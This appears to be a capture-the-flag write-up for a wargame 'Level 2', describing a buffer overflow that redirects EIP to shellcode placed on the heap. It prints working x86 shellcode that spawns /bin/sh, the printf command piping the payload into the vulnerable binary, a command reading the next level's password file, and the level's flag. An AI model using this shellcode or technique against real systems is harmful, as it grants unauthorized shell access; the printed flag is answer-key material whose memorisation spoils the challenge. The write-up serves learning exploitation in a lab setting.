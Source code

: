 # Level 2

In this level, we can't use overflow in the stack because of the condition. We need to put a shellcode in the heap and then overflow into EIP register with the heap address of the shellcode. To find how far we are from EIP, we need to try with an icreasing number of cycling characters like `a000b000c000d000e000f000g000h000i000j000k000l000m000n000o000p000u000r000s000t000u000v000w000x000y000z000A000B000C000D000E000F000G000H000I000J000K000L000M000N000O000P000Q000R000S000T000U000V000W000X000Y000Z000`.

We now need to create the shellcode. We simply compile a small [assembly program](./Ressources/shellcode.s) that execute `/bin/sh` and take the binary content.

```bash
printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\x08\xa0\x04\x08\n" > /tmp/level2
cat /tmp/level2 - | ./level2
cat /home/user/level3/.pass
```

**Flag:** `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`
